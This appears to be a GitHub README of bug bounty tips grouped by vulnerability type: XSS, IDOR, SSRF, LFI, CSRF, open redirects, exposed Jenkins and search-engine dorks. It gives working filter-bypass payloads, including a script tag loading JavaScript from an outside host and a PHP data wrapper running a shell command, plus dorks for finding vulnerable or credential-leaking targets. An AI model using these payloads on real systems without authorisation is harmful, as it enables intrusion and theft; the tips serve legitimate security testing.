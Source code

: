 # Bug Bounty Tips

### Recon
- Don't stop when you see the response forbidden/not found on the target you are testing, run dirsearch or any tool you prefer to find endpoints, like recon in [this writeup](https://medium.com/bugbountywriteup/900-xss-in-yahoo-recon-wins-65ee6d4bfcbd); or google the site (site:domain.com) you may find an endpoint which is accessible, like in [this writeup](https://medium.com/@sudhanshur705/story-about-my-first-bug-bounty-9fe710be8241).

### XSS
- I love it when a site creates a filter to 'try' prevent something like XSS (or even certain file extensions from being uploaded:D). In this case, [xss filter bypass: </script><%0dscript%20src=\http://mysite.com/yay.js>](https://www.bugbountynotes.com/forum/viewpost?id=100)
- Have you ever come across an issue, where you could pop XSS but parenthesis () gets filtered ? this payload ``onfocus="alert`1`"autofocus=`` will bypass that problem.
- "URL-encoding payload symbols" AND "The fragment(`#`) isn’t sent to the server - this means that no server-side firewall can see it, so it cannot stop attacks coming from this direction."
  - `https://www.bugbountytraining.com/challenges/challenge-10.php#?message=%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
  - `https://www.bugbountytraining.com/challenges/challenge-10.php?message=#%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
- The obstacle was to made the JavaScript code execute without error (the browser stops script execution on the first error).
  - ``http://try.harisec.com/chals/qli/?q=testing\&format=});alert(1);a=function(){`;%3C!--``
  - The trick here was to use an unusual way to comment the JavaScript code until the end of line (`<!--`) as the usual sequence `//` was also encoded.
  - The last trick was to use ES6 template strings ``(`)`` to be able to combine two reflections and finally exploit the injection.
```
      <script type="text/javascript">
        function init() {
          $(document).ready(function () {
            logTrackingData({searchType:"simple",query:"testing\",format:"});alert(1);a=function(){`;&lt;!--",pageId:"12345",pageNo:"1",searchCategory:"210",suggestions:"",results:""});
          })
        }
      </script>
```
- You can bypass a lot of XSS filters using HTML comments. They bypass it because they don't look/act like other tags. You can sometimes insert additional HTML too.
  - Example: `<!----><script>alert(0);</script>`
- By removing the "Content Security Policy" header from the response, we could check if the alert box not popping because of CSP. Or we could check CSP violation error message in "Console" in Chrome debug tool.
- If you open the url in the browser and see nothing but blank page, do not assume there is nothing there.
  - ALWAYS check the source code. There might be a bunch of JavaScript or e.g. some commented source code from server.
- ALWAYS check the full response on any request. Errors can sometimes give u the keys to the kingdom if u actually figure out what ur looking at witin the error response.

### IDOR

- When you're looking at an asset that may use a microservices architecture, look for IDOR vulnerabilities using path traversal. E.g. `https://example/?id=1/../2`.
  - The authorization check may pass because the user is allowed to see resource 1 and the system ignores /../2 in the authorization layer. This could work because some microservice architectures use HTTP to transport messages.
  - When one of the microservices implemented an HTTP endpoint like "/resource/:id" and it trusts the message from the sender, you may end up requesting "/resource/1/../2", which resolves to "/resource/2", given you access to an object you may not be authorized to see.
  - Yeah, I have encountered several issues of this type. like `https://example/?id=1/.../..../..../id=2` but never ended up in path traversal vulnerabilities.

### Information Disclosure

- Want to find some internal code of companies or some sample codes of new features? Checkout with: `site:http://repl.it  intext:<companydomain>`. In companydomain, if you know the internal domain it is even better.
  - `site:http://gist.github.com`
- Search for public Trello boards of companies, to find login credentials, API keys, etc. Or if you aren't lucky enough, then you may find companies' Team Boards sometimes with tasks to fix security vulnerabilities.

### SSRF

- a = Find fixed SSRF. b = Find open redirection in whitelisted domains. C = Amazon Aws metadata API.
  - a+b+C = Boom.
- Just had a weird SSRF 'bypass' which would only pull data from their domain so anything you queried would be `hxxps://www.theirdomain.com/reflectedhere/`. Weirdly using `/%2F//mysite.com/` caused it to hit external sites.

### LFI

- When lfi doesnt work to get `/etc/passwd` for example, you can always try to get source code disclosure by using the function of php://filter: `php://filter/convert.base64-encode/resource=index`
- When you came up with a file= parameter before trying for other rfi see phpinfo page is accessible or not you might get some juicy information. e.g.`file=data:text/plain, <?php phpinfo(); ?>`
  - Why prefer phpinfo() when you can `data:text/plain, <?php echo shell_exec("ls"); ?>`? (in both cases, allow_url_include=1).
  
### CSRF

- When testing for CSRF, send the POST parameters using GET method, eg: `GET /[post endpoint]?postprm1=value&postprm2=value2`. You will be surprised how many developers forget to add csrf protection on GET methods of the same endpoints.
- I'm going to tell you about the coolest CSRF 'bypass' I found (/sarcasm). CSRF token was sent with the POST request. Change to GET and remove the CSRF token => request works. 
  
### Higher Privilege

- If a website does not verify email, try signing up with <whatev>@domain.com (the company email). Sometimes this gives you higher privilege like deleting/viewing any other user's profiles etc.
  
### Hiden Endpoints

- A redirect to SSO does not always mean that every endpoints are behind the SSO. Specially if it is a popular instance like JIRA, Confluence etc, check to see if you can still hit endpoints like search sections, filters etc.

### Jenkins

- Sometime an open Jenkins dashboard can be as critical as below finding. A Shodan query to list all such publically accessible Jenkins Instance: `https://www.shodan.io/search?query=x-jenkins+200`
- sometimes you find those PATHs that forwards to a login page & you can't see the content inside them (ex: `/path/to/secret` --> Google login).
  - Take all these PATHs, prepend `/public/` to all of them as: `/public/path/to/secret`, got access to a Jenkins instance.

### HTTP Methods

- If server only allows GET and POST method, then try adding "X-HTTP-Method -Override: PUT to achieve RCE via PUT method.

### Open Redirection

- For Open Redirects you can bypass a lot of WAF using a special character which a lot of browsers (such as FireFox) convert into a '.' which will complete your URL.
  - The character is: 。
  - Usage: redirecthere。com
- There is no redirect using location header and the response code is 200 but the author still got redirected, which can mean only one thing, the redirect performed using javascript in the browser. Usually it means something like this: `window.location.href = nextURL;`. In theory if someone can control the `nextURL` parameter, he can perform XSS: `window.location.href = javascript:alert(1);//` or `window.location.href = data:text/html;HTML_CODE`.
- Using "Content Security Policy" to define which sources are allowed to be loaded could stop browser following 302 redirection (If this works, CSP violation error message will show in "Console" in Chrome debug tool). As show in [this writeup](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/).

### TOOLS
  
- Don't forget the google dorks, sometimes when you can't find nothing, let google find something for you. Check [this list of advanced google dorks](https://pastebin.com/zYPZNbMK) and use them.
  - Use of Google dorks and the site operator is a good way to identify vulnerable apps on sites with bounty. The inurl:/OA_HTML to get [unpatched instances with XSS or SQLi](https://the-infosec.com/2018/11/06/oracle-ebs-security-auditing/) is one of them.
  - To discover domains deployed on Github for subdomain takeover, following google dork can be used :- intext:"There isn't a Github Pages site here" and intitle:"Site not found · GitHub Pages".
- Always check the error message in "Console" in Chrome debug tool.
- Debugging Javascript can yield gold. You can edit source files directly by enabling "Local Overides" in Chrome. Changes made will persist, even after you refresh the page! 
